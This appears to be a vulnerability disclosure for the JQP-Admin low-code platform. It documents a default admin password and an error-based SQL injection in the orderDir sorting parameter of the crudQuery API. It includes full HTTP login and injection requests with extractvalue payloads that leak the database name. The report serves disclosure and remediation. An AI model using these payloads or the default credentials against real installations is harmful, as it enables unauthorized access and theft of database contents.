








## Vulnerability Description

JQP-Admin Low-Code Development Platform (master branch) contains a SQL injection vulnerability in the table column sorting function of multiple list pages, such as "System Management -> Menu Management". The core query API `POST /admin/page/crudQuery/{pageCode}` accepts the user-controllable `orderDir` parameter. In `PageServiceImpl.java` (around lines 193-196), the code fails to perform strict whitelist validation or enum restriction on this parameter and directly concatenates it into the `ORDER BY` clause of the SQL statement. The resulting query is executed as-is by `jdbcTemplate.query` in `MysqlJdbcDaoImpl.java` (around line 107). Due to the lack of sanitization, an attacker can exploit the `extractvalue()` function in MySQL to perform error-based SQL injection, thereby extracting sensitive database information including database names, table schemas, and confidential data. This vulnerability leads to severe data leakage.

**GitHub**：https://github.com/TedLiangHK/jqp-admin

**Gitee**：https://gitee.com/dushan1980/jqp-admin

## Vulnerability Analysis

**1. Default Weak Password Flaw**

The application uses a default weak administrator credential (`admin` / `1`). Because the system fails to enforce password changes during initial setup or first login, an attacker can log in directly to obtain administrative access. This grants a valid authenticated session (Session/Cookie), establishing the prerequisite for deeper exploitation (e.g., SQL injection).

**2. SQL Injection Vulnerability (Core Flaw)**

- The system's core query API `POST /admin/page/crudQuery/{pageCode}` is vulnerable to SQL injection in the table column sorting function of multiple list pages, such as "System Management -> Menu Management".
  - **Taint Source:** The user-controllable `orderDir` parameter from the frontend request.
  - **Taint Propagation:** In `PageServiceImpl.java` (around lines 193-196), the code fails to perform whitelist or enum validation on the parameter and directly concatenates it into the `ORDER BY` clause of the SQL statement.
  - **Trigger (Sink):** The concatenated malicious SQL query is executed as-is by `jdbcTemplate.query(pageSql, ...)` in `MysqlJdbcDaoImpl.java` (around line 107).

jqp-admin-master\src\main\java\com\jqp\admin\page\controller\PageController.java类crudQuery方法










## Steps to Reproduce

**Step 1: Login with Default Weak Credentials**

Access the JQP-Admin login page, enter the default weak credentials (`admin` / `1`), and click login to successfully enter the backend management dashboard.





```
POST /admin/user/login HTTP/1.1
Host: localhost:8080
Content-Length: 38
sec-ch-ua: "Not;A=Brand";v="24", "Chromium";v="128"
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
sec-ch-ua-platform: "Windows"
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/admin/lyear_pages_login.html?t=1794575525079
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=875DD67F213BD56CD18CC15FAF0F3D9E
Connection: keep-alive

username=admin&password=1&captcha=gczz
```

**Step 2: Locate and Intercept the Sorting Request**

Navigate to "System Management -> Menu Management" in the left sidebar. Click on a column header (e.g., "Menu Name" or "Sort") to trigger the sorting function, and use a proxy tool like Burp Suite to intercept the HTTP request.

Observe that the request is `POST /admin/page/crudQuery/menu`, and the request body contains the `orderBy` and `orderDir` parameters.



**Step 3: Craft the Payload and Verify the Injection Result**

Modify the `orderDir` parameter in the request body to the MySQL error-based injection payload: `ASC, extractvalue(1, concat(0x7e, (SELECT database()), 0x7e))`, and send the request. The server response contains the MySQL error message `XPATH syntax error: '~jqp~'`, successfully reflecting the current database name and confirming the SQL injection vulnerability in the `orderDir` parameter.



```
POST /admin/page/crudQuery/menu HTTP/1.1
Host: localhost:8080
Content-Length: 113
sec-ch-ua: "Not;A=Brand";v="24", "Chromium";v="128"
Accept: application/json, text/plain, */*
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Content-Type: application/json
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/crud/menu?v=1794574607799
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=875DD67F213BD56CD18CC15FAF0F3D9E; token=a88c62cb-4709-4a7c-b94b-7de17e425d22
Connection: keep-alive

{"page":1,"perPage":3,"orderBy":"menuName",
 "orderDir":"desc,(select extractvalue(1,concat(0x7e,database())))"}
```
